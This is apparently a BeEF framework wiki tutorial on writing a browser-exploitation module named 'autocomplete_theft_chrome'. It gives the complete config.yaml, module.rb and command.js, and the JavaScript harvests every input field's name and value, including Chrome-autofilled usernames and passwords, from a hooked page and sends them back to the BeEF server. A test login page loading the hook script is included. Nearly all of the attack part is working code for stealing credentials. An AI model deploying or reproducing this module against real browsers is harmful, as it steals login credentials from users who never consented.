

# Introduction

Let's say you are a relatively new Ruby developer, are loving BeEF and have a great idea in mind for a module. What now?

This page is intended to be a step by step walkthrough of creating a module from start to finish.

## Getting started

Suppose the module you want to create is to steal auto complete values from Chrome (especially usernames and passwords). 

We will call this module `autocomplete_theft_chrome`. 

First decide a category that this module will sit in. This module should not require much user interaction (the input fields on the hooked page is just auto completed by the Chrome browser if a match is found in saved logins.) Looking at existing categories (https://github.com/beefproject/beef/tree/master/modules), looks like this module will fit in the `browser` category.

### Method 1: copy existing module as template

A good starting point to create a module is to base the template off existing modules. For this example, we will copy the "template" from the `social_engineering/autocomplete_theft` module, which only works on firefox.

```sh
# in the beef repository folder
cp -rv modules/social_engineering/autocomplete_theft modules/browser/autocomplete_theft_chrome
```

You should see that 3 files are copied (along with the folder).
```
modules/social_engineering/autocomplete_theft -> modules/browser/autocomplete_theft_chrome
modules/social_engineering/autocomplete_theft/module.rb -> modules/browser/autocomplete_theft_chrome/module.rb
modules/social_engineering/autocomplete_theft/config.yaml -> modules/browser/autocomplete_theft_chrome/config.yaml
modules/social_engineering/autocomplete_theft/command.js -> modules/browser/autocomplete_theft_chrome/command.js
```

### Method 2: start from scratch

If you do not wish to copy any config files, you can make a folder under the preferred category named after your module.

`mkdir modules/browser/autocomplete_theft_chrome`

Then, create 3 files in that directory:

```sh
touch modules/browser/autocomplete_theft_chrome/config.yaml
touch modules/browser/autocomplete_theft_chrome/module.rb
touch modules/browser/autocomplete_theft_chrome/command.js
```


**Note**

Make sure your module name (e.g. autocomplete_theft_chrome) in config.yaml does not clash with another module.

To make sure of this, run this command (replace autocomplete_theft_chrome with your new module's name)
```sh
find . -name autocomplete_theft_chrome
```

There should be only one result. If there are more than one, change the name.


## the config file

First we modify the config file to fill in the details about this module. Open the config.yaml file (`modules/browser/autocomplete_theft_chrome/config.yaml`) in your preferred text editor.

At this point, the config file is the same as the steal_autocomplete module that we copied it from.

```yaml
beef:
    module:
        steal_autocomplete:
            enable: true
            category: "Social Engineering"
            name: "Steal Autocomplete"
            description: "This module steals autocomplete values from Firefox. The user must press the up or down arrow keys twice, followed by the left or right arrow key, in order to steal autocomplete information.<br/>Hint: Try convincing the user to enter the Konami code (Up, Up, Down, Down, Left, Right, Left, Right, B, A, Enter)."
            authors: ["Stefano Di Paola", "bcoles"]
            target:
                working: ["FF"]
                not_working: ["ALL"]

```

> If you have any questions about what the fields in the config file means, check https://github.com/beefproject/beef/wiki/Module-Creation

First we change the name of the module in the structure of the yaml file:
```yaml
beef:
    module:
        autocomplete_theft_chrome:

```

Then, we change the category, name, description and author fields. This module was put in the `browser` folder, so the category is capitalized `Browser`.
Fill in the Github handles for each author, maintaining the original syntax (e.g. `["Name One", "Name Two", "Name Three"]` and so on)

```
		category: "Browser"
		name: "Steal Autocomplete Chrome"
		description: "This module steals autocomplete values from Chrome. If a login is saved in Chrome for the hooked domain, it will be auto filled."
		authors: ["h4sh5"]
```

Last but not least, we fill in the target. There are three fields you can fill in (don't have to fill in all of them), and that is `working`, `user_notify` and `not_working`. In the web dashboard, this will show up as either a green light, orange light or red light to the corresponding hooked browser. 

If your module will definitely work on one browser, put the browser short hand in the `working` list. If it might work but you are not sure, or if it will alarm the victim, put it in `user_notify` list. If it definitely won't work, put it in `not_working`.

**Browser short hands**

| Short hand | Browser           |
|:-----------|:-----------------:|
|      C     | Chrome            |
|      S     | Safari            |
|      FF    | Firefox           |
|      IE    | Internet Explorer |
|      O     | Opera             |
|      ALL   | Everything        |


In the case of this module, it will definitely work on Chrome, but because we are just grabbing all input field values, it might also work on other browsers (very similar if not the same as the "Get Form Values" modules). So we put `working` for Chrome, and `user_notify` for everything else.

```
            target:
                working: ["C"]
                user_notify: ["ALL"]

```

The whole config file now looks like this:

```yaml
beef:
    module:
        autocomplete_theft_chrome:
            enable: true
            category: "Browser"
            name: "Steal Autocomplete Chrome"
            description: "This module steals autocomplete values from Chrome. If a login is saved in Chrome for the hooked domain, it will be auto filled"
            authors: ["h4sh5"]
            target:
                working: ["C"]
                user_notify: ["ALL"]
```


## module options and results (module.rb)

Now that the config file is taken care of, we start editting the `module.rb` file. This file includes three things - the options, `pre_send` function (ran before sending the payload), and post_execute (after BeEF receives and answer from the hooked brower)

**Basic Architecture**

This is the template:

```rb
class Your_module_name < BeEF::Core::Command

    # This method defines the options proposed to the user in the web interface
    def self.options
    end

    # This method will be called before sending the payload
    def pre_send
    end

    # This method will be called when BeEF receives an answer from the hooked browser
    def post_execute
    end
end

```

For this module, we don't really need to have any options since we are just taking values from all input fields. 

So we first modify the top of the file to change the name of the module:

```rb
class Autocomplete_theft_chrome < BeEF::Core::Command
```

the name here must be the capitalized version of the name in the config file (autocomplete_theft_chrome -> Autocomplete_theft_chrome)

We delete the options function, because we don't need it.

Then we leave the post_execute as it is, because we do want to store the results.

The final file would look like this:

```rb
class Autocomplete_theft_chrome < BeEF::Core::Command

        def post_execute
                content = {}
                content['results'] = @datastore['results']
                save content
        end

end
```

## Javascript to execute on hooked browser: command.js

After that, we will now look at what we need to execute in the hooked browser to get what we want sent back to BeEF.

For a brief example, this piece of Javascript logs all input form name and values into the console:

```js
for (x of document.querySelectorAll("input")) { 
    console.log(x.name + ":" + x.value);
}
```

You can test this in the developer console of Chrome, on a website that you saved your login on. 

Now we just need to send the results back to BeEF.

the `beef.execute(function() {}` is the function that will run when a module is executed. 

### Sending data back to BeEF

this is how we send data back to beef

```js
beef.net.send("<%= @command_url %>", <%= @command_id %>, "data");
```

The data we want to send, in this case, is all the input name:value pairs. So, instead of using `console.log`, we append all the data into a big string.

```js
data = '';
for (x of document.querySelectorAll("input")) { 
    data += x.name + ":" + x.value + "|";
}
```

Then we send it back to beef like this:
```js
beef.net.send("<%= @command_url %>", <%= @command_id %>, "results="+data);
```

The data sent back is prepended with `results` because on the receiving end, `module.rb` stores the result using "results" as a key:

```rb
content['results'] = @datastore['results']

```

Thus the parameter name must match that in `command.js`.


The final command.js looks like this:

```js
beef.execute(function() {

	data = '';
	for (x of document.querySelectorAll("input")) { 
	    data += x.name + ":" + x.value + "|";
	}

	beef.net.send("<%= @command_url %>", <%= @command_id %>, "results="+data);

});

```


## Testing the module

Now all that is done, when you fire up beef you should see one more module loaded than before. Open up the beef control panel and get a browser hooked.

You can hook a browser locally by simple firing up Chrome and opening `http://localhost:3000/demos/basic.html`.

However, for testing this module we will use a custom web page with a login field.

**login.html**
```html

<script src="http://localhost:3000/hook.js" type="text/javascript"></script>
<form action="login.html" method="post">

  <div class="container">
    <label for="uname"><b>Username</b></label>
    <input type="text" placeholder="Enter Username" name="uname" required>

    <label for="psw"><b>Password</b></label>
    <input type="password" placeholder="Enter Password" name="psw" required>

    <button type="submit">Login</button>
    <label>
      <input type="checkbox" checked="checked" name="remember"> Remember me
    </label>
  </div>

</form>

```

This HTML page contains a login form, and is hooked to the beef browser. Now fill out the username and password, then execute the new module to see the results returned.




***
[[Javascript API|Javascript API]] | [[Creating An Extension|Creating An Extension]]
